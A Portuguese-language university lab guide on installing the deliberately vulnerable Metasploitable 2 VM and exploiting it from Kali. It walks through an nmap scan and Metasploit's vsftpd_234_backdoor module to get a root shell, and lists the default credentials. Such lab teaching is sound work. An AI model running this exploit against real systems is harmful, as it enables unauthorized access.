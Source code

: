 **Ravens - Research on Vulnerability Exploration in Network Security**
**Professor Laerte Peotta**
laerte.melo@unb.br

Este roteiro descreve passo a passo como realizar operações Como instalar o Metasploitable 2 no VirtualBox

Atualizado em: 12/09/2025

[How to install Metasploitable 2 in VirtualBox – GeeksforGeeks](https://www.geeksforgeeks.org/linux-unix/how-to-install-metasploitable-2-in-virtualbox)

---

# Como instalar o Metasploitable2 no VirtualBox


Vamos primeiro discutir o que é o Metasploitable. Trata-se de um ambiente de testes muito útil para iniciantes que desejam praticar e testar suas habilidades em testes de penetração e pesquisa de segurança. Trata-se de uma máquina-alvo usada para descobrir e explorar vulnerabilidades, permitindo que o usuário tenha uma ideia de alvos e máquinas reais.

Em outras palavras, o Metasploitable é uma versão intencionalmente vulnerável do Ubuntu para máquinas virtuais, projetada para testar ferramentas de segurança e demonstrar vulnerabilidades comuns.

> Para instalar o **Metasploitable2** é preciso que você tenha o virtualbox.

## Instalação

***Etapa 1:***  [Baixe](https://translate.google.com/website?sl=en&tl=pt&hl=pt&client=srp&u=https://sourceforge.net/projects/metasploitable/files/Metasploitable2/) o arquivo Metasploitable 2. Ele vem em formato ZIP e contém um arquivo `.vmdk` (disco rígido virtual) – não um arquivo ISO.

![](https://media.geeksforgeeks.org/wp-content/uploads/20221115094635/image1.jpg)

***Passo 2:*** O arquivo inicialmente estará no formato zip, então precisamos extraí-lo. Após extrair o arquivo, abra o VirtualBox.

![](https://media.geeksforgeeks.org/wp-content/uploads/20221115094755/image2.jpg)

***Etapa 3:*** Agora, como mostrado na imagem acima, clique em **new** 

![](https://media.geeksforgeeks.org/wp-content/uploads/20221115095023/image3.jpg)

- Agora uma janela você deverá fornecer alguns detalhes, como o nome da sua máquina, caminho de instalação, tipo e versão.
- preencha os detalhes como:

Nome: ***Metasploitabe2***  
Caminho: ***deixe como recomendado***  
Tipo: ***Linux***  
Versão: ***outro (64 bits)***

> ***Observação*** : como o arquivo Metasploitable 2 não é um arquivo ISO, você não inicializará a partir de um instalador. Em vez disso, anexaremos o `.vmdk`arquivo existente como um disco rígido virtual, que contém o sistema operacional completo pré-instalado.

![](https://media.geeksforgeeks.org/wp-content/uploads/20221115095717/image4.jpg)

***Etapa 4:*** selecione a RAM que você deseja fornecer à máquina virtual. recomendado (512 MB).

![](https://media.geeksforgeeks.org/wp-content/uploads/20221115095742/image5.jpg)

***Passo 5:*** Agora, escolha a opção de usar um arquivo de disco rígido virtual existente. Clique no ícone da pasta, navegue e selecione o `.vmdk`arquivo extraído do arquivo ZIP do Metasploitable 2. Isso montará o disco rígido da VM diretamente, sem a necessidade de ISO.

![](https://media.geeksforgeeks.org/wp-content/uploads/20221115095822/image6.jpg)

- Agora localize o arquivo que extraímos.

***Etapa 6:** Agora salve o arquivo e você verá que a instância será criada com o nome **Metasploitable2**

![](https://media.geeksforgeeks.org/wp-content/uploads/20221115095857/image7.jpg)

- Estamos prontos para usar a máquina, basta pressionar o botão Iniciar na parte superior e esperar que ela inicie e carregue a instância.

![](https://media.geeksforgeeks.org/wp-content/uploads/20221115095919/image8.jpg)

**Etapa 7.** Assim que a instância for carregada, você será solicitado a fornecer um nome de usuário e uma senha. Por padrão, as credenciais são:

```
Login: msfadmin  
Senha: msfadmin
```

![](https://media.geeksforgeeks.org/wp-content/uploads/20221115095941/image9.jpg)

- Depois de fazer login com as credenciais, você será direcionado para a máquina e concluiremos o processo de instalação.

### Demonstração de teste de penetração com Metasploitable 2

**Etapa 1:** abra suas máquinas Metasploitable2 e Kali Linux lado a lado.

- Primeiro, precisamos executar ambas as instâncias ao mesmo tempo, lado a lado, para que possamos ver as alterações claramente. Inicie o Vbox e inicie o kali Linux e o Metasploitable2 lado a lado.

![](https://media.geeksforgeeks.org/wp-content/uploads/20221116005839/img1.jpg)

**Etapa 2:** vamos verificar os endereços IP de ambas as máquinas para obter uma visão geral da máquina de destino.

- Agora vamos abrir o terminal e verificar o endereço IP do Metasploitable2 no qual vamos realizar o ataque. use o seguinte comando:

```bash
msfadmin@metasploitable:~$ ifconfig
```
- na imagem acima, podemos ver que temos um endereço IP, ou seja, 192.168.10.5, da máquina de destino.

**Etapa 3:** agora realizaremos uma varredura de rede com a ajuda da ferramenta Nmap para ver quais serviços estão sendo executados no destino e quais estão dentro do destino.

- agora o primeiro passo é procurar por vulnerabilidades para que possamos explorar a máquina, para isso usaremos o Nmap scan em um terminal Linux. use o comando:

```bash
root-user-#/ $ nmap -sV -O 192.168.10.5
```

![](https://media.geeksforgeeks.org/wp-content/uploads/20221116010018/img3.jpg)

- no comando acima, -sV é usado para obter as versões dos serviços em execução na máquina de destino e -O é usado para detectar o sistema operacional na máquina de destino.
- agora podemos ver que temos muitas maneiras de exploração de vulnerabilidades, usaremos o exploit vsftpd_234_backdoor para explorar e obter acesso à máquina.

**Etapa 4:**  Agora que temos todas as informações relacionadas ao exploit que precisamos usar, ou seja, **vsftpd_backdoor**, podemos usar o Metasploit para explorar a máquina e obter acesso ao shell de comando, o que eventualmente nos dará acesso à máquina alvo.

- inicie o [Metasploit Framework](https://translate.google.com/website?sl=en&tl=pt&hl=pt&client=srp&u=+https://www.geeksforgeeks.org/linux-unix/what-is-metasploit/++) pelo comando mencionado abaixo:

```bash
root-user-#/ $ msfconsole
```
- Depois de seguir os comandos, vamos escolher o exploit vsftpd_backdoor e então definir o Rhost (IP de destino).

**Etapa 5:** Agora, tudo o que precisamos fazer é implantar o exploit na máquina de destino com a ajuda do msfconsole. Para isso, precisamos seguir alguns passos básicos que são:

- primeiro, vamos selecionar o exploit que vamos usar, neste caso é o vsftpd_backdoor, então usaremos o seguinte comando ****:****

```bash
msf6~/ use exploit/unix/ftp/vsftpd_234_backdoor
```
- Depois de selecionar o exploit, vamos configurar o alvo no qual iremos implantar o exploit.

```bash
msf6~/ (unix/ftp/vsftpd_234_backdoor): show options
```

![](https://media.geeksforgeeks.org/wp-content/uploads/20221116010105/img4.jpg)

- agora podemos ver que temos a opção de definir RHOST, que é o host receptor. Então, vamos defini-lo para o endereço IP da máquina de destino.

```bash
msf6~/ (unix/ftp/vsftpd_234_backdoor):set RHOST 192.168.10.5
```

**Etapa 6:** a etapa final é executar o exploit, pelo comando exploit.

```bash
msf6~/ (unix/ftp/vsftpd_234_backdoor): exploit
```

- depois de definir o RHOST, basta digitar o comando exploit e você verá que o shell de comando da máquina alvo será obtido.

![](https://media.geeksforgeeks.org/wp-content/uploads/20221116010157/img6.jpg)

- agora que tivemos sucesso obtendo um shell, você pode tentar comandos e verificar em ambas as máquinas ao mesmo tempo. 

**Etapa 7:** verifique usando alguns comandos do shell, como imprimir o diretório de trabalho ou ls em uma diretório.

```bash
pwd, ls -l, ls -a etc
```
- Então, analisamos com sucesso como o Metasploitable é útil para praticar habilidades de testes de invasão.
- Temos acesso root à máquina.

### Conclusão:

O Metasploitable 2 é uma ótima máquina para praticar e aprender sobre testes de invasão e hacking, apresenta várias vulnerabilidades e falhas que você pode continuar pesquisando e aprimorando suas habilidades. Atualmente, outra versão do Metasploitable também está disponível, e você pode usá-la. O processo de configuração e instalação é o mesmo do descrito acima.

Aprendemos como instalar o Metasploitable versão 2 com sucesso e vimos uma demonstração de exploração com o exploit mais famoso e básico, o vsftpd_backdoor. Há muitos outros exploits e técnicas para aprender e praticar.
